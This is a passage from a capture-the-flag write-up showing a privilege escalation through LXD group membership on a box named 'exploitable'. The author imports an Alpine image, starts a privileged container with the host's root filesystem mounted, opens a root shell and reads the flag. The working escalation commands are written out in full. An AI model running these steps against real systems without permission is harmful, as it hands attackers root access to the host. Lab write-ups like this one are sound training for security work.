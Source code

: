 
```
john@exploitable:/tmp$ lxc image import ./alpine-v3.15-x86_64-20220131_0021.tar.gz --alias exploit
Image imported with fingerprint: b8a65292cb8940967279eb890c67fbc9dfebb9e77a386772e74b57730b3e6fe9
john@exploitable:/tmp$ lxc init exploit ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite exploit disk source=/ path=/mnt/root recursive=true
Device exploit added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc list
+--------+---------+----------------------+-----------------------------------------------+------------+-----------+
|  NAME  |  STATE  |         IPV4         |                     IPV6                      |    TYPE    | SNAPSHOTS |
+--------+---------+----------------------+-----------------------------------------------+------------+-----------+
| ignite | RUNNING | 10.229.116.13 (eth0) | fd42:2998:1e63:3d6f:216:3eff:fe19:51ae (eth0) | PERSISTENT | 0         |
+--------+---------+----------------------+-----------------------------------------------+------------+-----------+
```

It's imported and in a running state so it looks like we're set to escalate.

<br>

Running:

`lxc exec ignite /bin/sh`:

```
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # whoami
root
```

And just like that we have a root shell!

We mounted to **/mnt/root** in the 3rd command above so I change over to the /root directory inside the mount and find the **root.txt** flag waiting:

```
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
<REDACTED>
```

With that we've solved this CTF!

<br>

![](images/gamingserver4.png)
